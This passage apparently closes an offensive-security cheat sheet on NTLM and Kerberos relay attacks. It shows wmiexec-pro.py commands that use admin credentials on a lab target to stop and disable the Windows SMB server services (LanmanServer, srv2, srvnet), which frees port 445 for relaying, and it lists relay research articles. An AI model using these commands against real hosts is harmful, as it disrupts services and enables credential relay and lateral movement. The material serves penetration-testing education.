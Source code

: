     ```ps1
    wmiexec-pro.py lab.local/admin@target.lab.local service -action disable -service-name "LanmanServer"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action stop -service-name "LanmanServer"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action stop -service-name "srv2"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action disable -service-name "srvnet"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action getinfo -service-name "srvnet"
    ```

## References

* [Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx - Quentin Roland - January 27, 2025](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)
* [Drop the MIC - CVE-2019-1040 - Marina Simakov - Jun 11, 2019](https://blog.preempt.com/drop-the-mic)
* [Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin - Dirk-jan Mollema - June 13, 2019](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)
* [Lateral Movement – WebClient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
* [NTLM Relaying to LDAP - The Hail Mary of Network Compromise - @logangoins - July 23, 2024](https://logan-goins.com/2024-07-23-ldap-relay/)
* [Playing with Relayed Credentials - June 27, 2018](https://www.secureauth.com/blog/playing-relayed-credentials)
* [Relay Your Heart Away - An OPSEC-Conscious Approach to 445 Takeover - Nick Powers (@zyn3rgy) - Aug 1, 2024](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
* [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover - Nick Powers (@zyn3rgy) - July 27, 2024](https://www.youtube.com/watch?v=iBqOOkQGJEA)
* [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher - Mar 9, 2018](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
